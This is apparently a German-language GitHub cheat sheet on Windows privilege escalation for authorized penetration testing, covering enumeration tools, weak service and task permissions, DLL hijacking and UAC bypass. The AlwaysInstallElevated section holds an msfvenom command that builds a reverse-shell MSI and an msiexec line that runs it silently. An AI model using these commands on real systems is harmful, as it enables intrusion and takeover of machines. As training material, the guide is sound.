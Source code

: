 # 🪟 Windows Privilege Escalation 

## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Nützliche Tools](#nützliche-tools)
- [Typische Escalation-Vektoren](#typische-escalation-vektoren)
- [Tipps zur Analyse](#tipps-zur-analyse)
- [Weiterführende Links](#weiterführende-links)
- [Haftungsausschluss](#haftungsausschluss)

## Einleitung

Diese Datei dokumentiert Methoden, Tools und Vorgehensweisen zur Privilegienerweiterung (Privilege Escalation) auf **Windows-Systemen**. Sie dient ausschließlich zu **Schulungszwecken** im Rahmen von Penetration Tests und Security-Audits durch autorisierte Fachkräfte.



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Nützliche Tools

### 1. `whoami`-Befehle

```bash
whoami /user           # Aktueller Benutzername mit SID
whoami /groups         # Gruppenmitgliedschaften (z. B. Admins)
whoami /priv           # Aktive Berechtigungen des Benutzers
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 2. `accesschk.exe` von Sysinternals

Tool zur Analyse von Zugriffsrechten:

```bash
accesschk.exe -uws "Benutzer" *               # Zugriffsrechte auf Dienste
accesschk.exe -ucqv Benutzer Pfad\zur\Datei  # Detaillierte Rechteprüfung
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

### 3. `Seatbelt.exe`

Tool zur Informationssammlung auf dem Zielsystem (C#):

```bash
Seatbelt.exe all
```

Funktioniert gut bei eingeschränkten Benutzerrechten – erkennt z. B. gespeicherte Passwörter, schwache Registry-Einstellungen usw.



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 4. `WinPEAS.exe`

Automatisiertes Enumeration-Tool:

```bash
WinPEASx64.exe oder WinPEASx86.exe
```

Identifiziert potenzielle Schwachstellen wie Dienste mit schwachen ACLs, ungesicherte Tasks, UAC-Bypass-Möglichkeiten etc.



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Typische Escalation-Vektoren

### 1. Unquoted Service Paths

Nicht in Anführungszeichen gesetzte Pfade in Diensten:

```bash
sc qc <ServiceName>
```

Pfad zu ausführbarer Datei enthält Leerzeichen → eigene Binärdatei einschleusen.



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 2. Schwache Dienstrechte (Insecure Permissions)

Benutzer hat Schreibrechte auf den Dienst:

```bash
accesschk.exe -uws Benutzer *
```

→ Dienstdatei oder Binärpfad ersetzen.



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 3. Scheduled Tasks mit schwachen Rechten

```bash
taskschd.msc
schtasks /query /fo LIST /v
```

→ Aufgabe manipulieren oder durch Trojaner ersetzen.



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 4. AlwaysInstallElevated (MSI-Bypass)

```bash
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Werte:

```
AlwaysInstallElevated    REG_DWORD    0x1
```

Dann:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f msi > shell.msi
msiexec /quiet /qn /i shell.msi
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 5. DLL Hijacking

Wenn ein ausführbares Programm DLLs aus unsicheren Pfaden lädt:

* `.dll` Datei mit Payload erstellen
* In priorisierten Ordnern (gleicher Pfad wie EXE) ablegen

Tools zur Analyse: [Procmon.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 6. UAC-Bypass (User Access Control)

Identifiziere UAC-schwache Prozesse:

* `fodhelper.exe`
* `eventvwr.exe`

UACMe-Tool: [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Tipps zur Analyse

* **PowerUp.ps1** (PowerShell Framework)
* **SharpUp** (C#): Enumeration wie PowerUp, aber für AV-Bypass geeignet
* **Windows Exploit Suggester – Next Generation**



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Weiterführende Links

* [GTFOBins Windows Pendant: LOLBAS](https://lolbas-project.github.io/)
* [Windows-Privilege-Escalation-Cheat-Sheet](https://github.com/netbiosX/Checklists)



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---